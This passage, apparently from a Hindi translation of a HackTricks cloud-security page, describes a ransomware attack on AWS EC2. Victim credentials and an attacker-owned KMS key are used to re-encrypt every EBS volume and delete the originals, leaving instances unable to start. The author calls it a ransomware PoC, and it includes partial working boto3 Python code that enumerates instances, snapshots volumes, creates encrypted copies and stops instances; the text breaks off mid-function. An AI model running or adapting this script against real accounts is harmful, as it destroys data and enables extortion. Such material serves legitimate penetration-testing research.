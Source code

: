 
![Pasted image 20231231174131](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/ba9e5340-7020-4af9-95cc-0e02267ced47) ![Pasted image 20231231174258](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/6c3215ec-4161-44e2-b1c1-e32f43ad0fa4)

लेकिन जब आप एन्क्रिप्टेड EBS वॉल्यूम के साथ EC2 इंस्टेंस को फिर से शुरू करने का प्रयास करते हैं, तो यह बस विफल हो जाएगा और 'पेंडिंग' स्थिति से 'स्टॉप्ड' स्थिति में हमेशा के लिए वापस चला जाएगा क्योंकि अटैच किया गया EBS वॉल्यूम कुंजी का उपयोग करके डिक्रिप्ट नहीं किया जा सकता क्योंकि कुंजी नीति अब इसकी अनुमति नहीं देती है।

![Pasted image 20231231174322](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/73456c22-0828-4da9-a737-e4d90fa3f514) ![Pasted image 20231231174352](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/4d83a90e-6fa9-4003-b904-a4ba7f5944d0)

यह वह पायथन स्क्रिप्ट है जिसका उपयोग किया गया है। यह 'पीड़ित' खाते के लिए AWS क्रेड्स और एन्क्रिप्शन के लिए उपयोग की जाने वाली कुंजी के लिए एक सार्वजनिक रूप से उपलब्ध AWS ARN मान लेता है। यह स्क्रिप्ट लक्षित AWS खाते में सभी EC2 इंस्टेंस से जुड़े सभी उपलब्ध EBS वॉल्यूम की एन्क्रिप्टेड कॉपी बनाएगी, फिर हर EC2 इंस्टेंस को रोक देगी, मूल EBS वॉल्यूम को अटैच से हटा देगी, उन्हें हटा देगी, और अंततः प्रक्रिया के दौरान उपयोग की गई सभी स्नैपशॉट को हटा देगी। इससे लक्षित 'पीड़ित' खाते में केवल एन्क्रिप्टेड EBS वॉल्यूम रह जाएंगे। इस स्क्रिप्ट का उपयोग केवल परीक्षण वातावरण में करें, यह विनाशकारी है और सभी मूल EBS वॉल्यूम को हटा देगा। आप उपयोग की गई KMS कुंजी का उपयोग करके उन्हें पुनर्प्राप्त कर सकते हैं और स्नैपशॉट के माध्यम से उन्हें उनके मूल स्थिति में बहाल कर सकते हैं, लेकिन आपको यह बताना चाहता हूं कि यह अंततः एक रैनसमवेयर PoC है।
```
import boto3
import argparse
from botocore.exceptions import ClientError

def enumerate_ec2_instances(ec2_client):
instances = ec2_client.describe_instances()
instance_volumes = {}
for reservation in instances['Reservations']:
for instance in reservation['Instances']:
instance_id = instance['InstanceId']
volumes = [vol['Ebs']['VolumeId'] for vol in instance['BlockDeviceMappings'] if 'Ebs' in vol]
instance_volumes[instance_id] = volumes
return instance_volumes

def snapshot_volumes(ec2_client, volumes):
snapshot_ids = []
for volume_id in volumes:
snapshot = ec2_client.create_snapshot(VolumeId=volume_id)
snapshot_ids.append(snapshot['SnapshotId'])
return snapshot_ids

def wait_for_snapshots(ec2_client, snapshot_ids):
for snapshot_id in snapshot_ids:
ec2_client.get_waiter('snapshot_completed').wait(SnapshotIds=[snapshot_id])

def create_encrypted_volumes(ec2_client, snapshot_ids, kms_key_arn):
new_volume_ids = []
for snapshot_id in snapshot_ids:
snapshot_info = ec2_client.describe_snapshots(SnapshotIds=[snapshot_id])['Snapshots'][0]
volume_id = snapshot_info['VolumeId']
volume_info = ec2_client.describe_volumes(VolumeIds=[volume_id])['Volumes'][0]
availability_zone = volume_info['AvailabilityZone']

volume = ec2_client.create_volume(SnapshotId=snapshot_id, AvailabilityZone=availability_zone,
Encrypted=True, KmsKeyId=kms_key_arn)
new_volume_ids.append(volume['VolumeId'])
return new_volume_ids

def stop_instances(ec2_client, instance_ids):
for instance_id in instance_ids:
try:
instance_description = ec2_client.describe_instances(InstanceIds=[instance_id])
instance_state = instance_description['Reservations'][0]['Instances'][0]['State']['Name']

```